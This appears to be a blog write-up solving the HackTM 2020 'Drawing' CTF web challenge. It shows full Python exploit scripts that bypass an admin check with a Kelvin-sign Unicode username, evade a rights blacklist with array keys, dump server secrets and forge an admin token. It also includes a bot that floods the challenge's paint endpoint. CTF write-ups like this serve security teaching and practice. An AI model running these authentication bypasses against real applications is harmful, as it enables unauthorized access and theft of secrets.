

Title: Drawing
Author: spotless
Date: 2020-02-02 18:27
Slug: hacktm-2020-drawing
Category: CTF
Cat: web
Tags: nodejs
Summary: CTF challenge "Drawing"

> Come draw with us! Hint! Changing your color is the first step towards happiness.


### NodeJS back-end

The challenge provides the [source code](../downloads/hacktm2020_stripped.js) which reveals:

- An NodeJS Express server
- login / admin management / socket.io
- JWT algo: `HS256`
- admin username: `hacktm`

To access the flag we need to become `req.user.id == 0`.

```javascript
app.get("/flag", (req, res) => {
  if (req.user.id == 0) {
    res.send(ok({ flag: flag }));
```

## JWT secret

If we can sign our own JWT tokens, we can become admin (`id: 0`) and access
the `/flag` route. Using `rockyou.txt` we tried bruteforcing the JWT secret,
but (not surprisingly) this did not yield anything.


```
./john --wordlist=rockyou.txt --format="HMAC-SHA256" jwt.txt
```

## Obtaining flag

`req.user.id` is derived from the incoming JWT token.

JWT tokens can be generated by visiting `/init`. Simplified code:

```javascript
let target = md5(n.toString());   // secret

let pwHash = md5(
bigInt(String(p))           // user input
  .multiply(String(q))      // user input
  .toString()
);

let adminId = pwHash
  .split("")
  .map((c, i) => c.charCodeAt(0) ^ target.charCodeAt(i))
  .reduce((a, b) => a + b);

```

Where: `p` and `q` are user input, `n` is secret.

Some characteristics on `n`:

- md5 is 32 characters, so `target` has same length as `pwHash`.
- `toString()` hints that it is a number.

The `adminId` is calculated using `target`, where each char is subject to a XOR.
During such iteration (`in map()`), if the 2 characters are the same (i.e: correct),
the resulting operation would result to `0`. At the end (during `reduce()`) it will
`sum()` all elements and if the result is `0` you are, in fact, user id `0`.

However, if the md5 hashes do not match, you get a positive number, which results in
the user id being greater than 0.

There is no way to realistically bruteforce this, as the `reduce()` removes any possibility
of a linear search to derive `n`. We must find another way.

## JWT `none` attack

Next up; trying the JWT `none` attack.

1. Replace/alter JWT payload 
  1. `{"id":1374,"iat":1580560256}` -> `{"id":0,"iat":1580560256}`
2. Remove signature
3. Change `{"typ":"JWT","alg":"HS256"}` -> `"alg": "none"`
4. Submit attack @ server

More information on this type of attack can be found [here](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/).

Anyway, this does **not** work. It would have been too easy.

## Back to code reading

1. We need to become `req.user.id` `0`
2. In order to so, we need to know `config.n`.
3. Perhaps we can read/expose `config.n` / `config.p` in another way?

```javascript
app.get("/serverInfo", (req, res) => {
  // Only for logged in users

  let user = users[req.user.id] || { rights: [] };
  let info = user.rights.map(i => ({ name: i, value: config[i] }));
  res.json(ok({ info: info }));
});
```

This seems to be code that reads straight from the `config` object using `user.rights` as access keys.
The question now becomes, can we insert our own keys in `user.rights` ? If so, we could simply insert
`n` and it would output the secret `config.n` value.

`/updateUser` seems to have some code that allows adding our own rights:

```javascript
app.post("/updateUser", (req, res) => {
  // Only for admin
  let uid = req.user.id;
  let user = users[uid];

  if (!user || !isAdmin(user)) {
    res.json(err("You're not an admin!"));
    return;
  }

  let rights = req.body.rights || [];
  if (rights.length > 0 && checkRights(rights)) {
    users[uid].rights = user.rights.concat(rights).filter(onlyUnique);
  }

  res.json(ok({ user: users[uid] }));
});
```

But in order to extend our rights, we need to pass the `isAdmin(user)` check;

```javascript
function isAdmin(u) {
  return u.username.toLowerCase() == config.adminUsername.toLowerCase();
}
```

Ooh, a loose comparison. Perhaps we can break it.

Remember, during `/login` we can provide our own username, but it cannot be `config.adminUsername` as per:

```javascript
function isValidUser(u) {
  return (
    u.username.length >= 3 &&
    u.username.toUpperCase() !== config.adminUsername.toUpperCase()
  );
}
```

So, the question becomes, what can pass both `isValidUser(user)` and `isAdmin(user)`?

## Valid user

Asby came up with the following demo:

```javascript
var admin = "hacktm";
var user = "hacKtm";

console.log("Username: " + user);
console.log("isAdmin: " + (user.toLowerCase() == admin.toLowerCase()));
console.log("isValidUser: " + (user.toUpperCase() !== admin.toUpperCase()));


// var uc_arr = admin.toUpperCase().split("");
// var lc_arr = admin.toLowerCase().split("");

// for(i=0;i<100000;i++){
//     var c = String.fromCharCode(i);
//     if (uc_arr.includes(c.toUpperCase()) || lc_arr.includes(c.toLowerCase())){
//         console.log(i, c, c.toUpperCase(), c.toLowerCase());
//     }
}

```

Where he discovered that using the Kelvin sign `K` still passes in a loose comparison;

```javascript
"hacKtm".toLowerCase() == "hacktm".toLowerCase() // true
```

Yet it will fail on the admin check during login:

```javascript
"hacKtm".toUpperCase() === "hacktm".toUpperCase() // false
```

We can use this to pass both security checks.

## Rights

Now we can call `/updateUser` to add our custom right.

```javascript
app.post("/updateUser", (req, res) => {
  // Only for admin
  let uid = req.user.id;
  let user = users[uid];

  if (!user || !isAdmin(user)) {
    res.json(err("You're not an admin!"));
    return;
  }

  let rights = req.body.rights || [];
  if (rights.length > 0 && checkRights(rights)) {
    users[uid].rights = user.rights.concat(rights).filter(onlyUnique);
  }

  res.json(ok({ user: users[uid] }));
});
```

There is one more obstacle; `checkRights(rights)`:

```javascript
function checkRights(arr) {
  let blacklist = ["p", "n", "port"];
  for (let i = 0; i < arr.length; i++) {
    const element = arr[i];
    if (blacklist.includes(element)) {
      return false;
    }
  }
  return true;
}
```

Which tries to prevent the user from adding blacklisted keys
such as `n` and `p`. We can however beat this by adding our keys
as an array.

Quick example, where we try to access an object with an array as key:

```javascript
foo = {"foo": "bar"}
foo[["foo"]]  // bar
```

Don't you love Javascript? `¯\_(ツ)_/¯`. So if we add `['n']` and `['p']` we will defeat the `checkRights()` function.

We can then call `/serverInfo` to read arbitrary values out of the `config` object.

#### Dumped secrets

Using this we can dump the `config` secrets:

```python3
import requests

url = "http://167.172.165.153:60001"

# create user with the admin username
resp = requests.post(url + "/login",
                     json={"username": "hacKtm"})
resp.raise_for_status()
token = resp.json()['data']['token']
print("[*] Created user with admin username")

# add illegal rights
resp = requests.post(url + "/updateUser",
                     json={"rights": [["n"], ["p"]]},
                     headers={"Authorization": "Bearer %s" % token})
resp.raise_for_status()
print("[*] updated rights")

# fetch secret config values
resp = requests.get(url + "/serverInfo",
                    headers={"Authorization": "Bearer %s" % token})
resp.raise_for_status()
print("[*] fetched secret config values")

server_info = resp.json()
for key in server_info["data"]["info"]:
    if isinstance(key["name"], list):
        print("[*] %s = %s" % (key["name"][0], key["value"]))
```

```text
[*] n = 54522055008424167489770171911371662849682639259766156337663049265694900400480408321973025639953930098928289957927653145186005490909474465708278368644555755759954980218598855330685396871675591372993059160202535839483866574203166175550802240701281743391938776325400114851893042788271007233783815911979
[*] p = 192342359675101460380863753759239746546129652637682939698853222883672421041617811211231308956107636139250667823711822950770991958880961536380231512617
```

## Exploit

We call `/init` to generate an admin JWT token and call `/flag`:

```python3
import jwt  # pip install pyjwt

data = {
    "p": "54522055008424167489770171911371662849682639259766156337663049265694900400480408321973025639953930098928289957927653145186005490909474465708278368644555755759954980218598855330685396871675591372993059160202535839483866574203166175550802240701281743391938776325400114851893042788271007233783815911979",
    "q": "1"
}

resp = requests.post(url+"/init", json=data)
token = resp.json()['data']['token']
jwt_claim = jwt.decode(token, verify=False, algorithms=['HS256'])
assert jwt_claim['id'] == 0

resp = requests.get(url+"/flag", headers={"Authorization": "Bearer %s" % token})
print(resp.json())
```

## Flag

`HackTM{Draw_m3_like_0ne_of_y0ur_japan3se_girls}`


## Bonus: Drawing bot



#### Usage

1. Get a PNG image of dimensions `120x80`
2. Generate pixel data: `python main.py "image.png"`
3. Pixel data ends up in `output/`.
4. The script will output GNU parallel commands that you can run.

#### Example

```bash
$ python main.py "sp0t.png"
parallel -j +10 ./output/588d43.sh < output/588d43.txt
parallel -j +10 ./output/9ad284.sh < output/9ad284.txt
parallel -j +10 ./output/ffffff.sh < output/ffffff.txt
```

#### Code

```python3
import sys
import os
import struct
import json
import requests
from PIL import Image  # pip install pillow-simd requests

url = "http://167.172.165.153:60001"


def get_color_token(_hex):
    resp = requests.post(url+"/login", json={"username": "hacKtm"})
    resp.raise_for_status()
    token = resp.json()['data']['token']
    data = {"color": int(_hex, 16)}

    resp = requests.post(url+"/updateUser", json=data, headers={"Authorization": "Bearer %s" % token})
    resp.raise_for_status()
    return token


img = Image.open(sys.argv[1])
img = img.convert("RGBA")
pix = img.load()

os.popen("rm output/*").read()

output = {}
numcolors = []
hexlookup = {}
data = {}
hexi = lambda k: struct.pack('B', k).hex()

i = 0
for x in range(0, img.width):
    for y in range(0, img.height):
        r, g, b, a = pix[x, y]
        if a == 0:
            continue

        cc = (r, g, b)
        if cc not in numcolors:
            numcolors.append(cc)
        i += 1

        hexlookup.setdefault(cc, f"{hexi(r)}{hexi(g)}{hexi(b)}")
        data.setdefault(hexlookup[cc], [])
        data[hexlookup[cc]].append((x, y))


for k, v in data.items():
    f = open("output/%s.txt" % k, "a")
    for coord in v:
        x, y = coord
        f.write("%s\n" % json.dumps({"x": x, "y": y}))
    f.close()

for k, v in data.items():
    f = open("output/%s.sh" % k, "a")
    f.write("#!/bin/bash\n\n")

    token = get_color_token(k)
    cmd = """curl -vv -XPOST -m3 -s --data "$1" -H "Content-Type: application/json" -H "Authorization: Bearer %s" %s/paint""" % (
        token, url
    )
    f.write(cmd)
    f.write("\n")
    f.close()

    print("parallel -j +10 ./output/%s.sh < output/%s.txt" % (k, k))

os.popen("chmod +x output/*.sh").read()
```
